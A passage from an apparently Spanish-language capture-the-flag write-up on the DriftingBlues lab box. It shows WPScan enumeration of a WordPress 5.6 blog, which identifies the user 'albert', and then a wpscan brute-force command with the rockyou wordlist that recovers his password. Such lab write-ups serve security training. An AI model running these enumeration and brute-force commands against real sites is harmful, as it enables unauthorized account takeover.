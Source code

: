 ```bash
[+] WordPress readme found: http://driftingblues.box/blog/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] Upload directory has listing enabled: http://driftingblues.box/blog/wp-content/uploads/
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://driftingblues.box/blog/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 5.6 identified (Insecure, released on 2020-12-08).
 | Found By: Rss Generator (Passive Detection)
 |  - http://driftingblues.box/blog/index.php/feed/, <generator>https://wordpress.org/?v=5.6</generator>
 |  - http://driftingblues.box/blog/index.php/comments/feed/, <generator>https://wordpress.org/?v=5.6</generator>
 |
 | [!] 44 vulnerabilities identified:

[i] User(s) Identified:

[+] albert
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Rss Generator (Passive Detection)
 |  Wp Json Api (Aggressive Detection)
 |   - http://driftingblues.box/blog/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

```

Procedemos a realizar fuerza bruta sobre el usuario `albert` utilizando el diccionario `rockyou`.

```bash
wpscan --url http://driftingblues.box/blog -U albert -P /usr/share/wordlists/rockyou.txt -t 10
_______________________________________________________________

[+] Performing password attack on Wp Login against 1 user/s
[SUCCESS] - albert / scotland1
Trying albert / wellington Time: 00:01:33 <                      > (6670 / 14351062)  0.04%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: albert, Password: scotland1

```
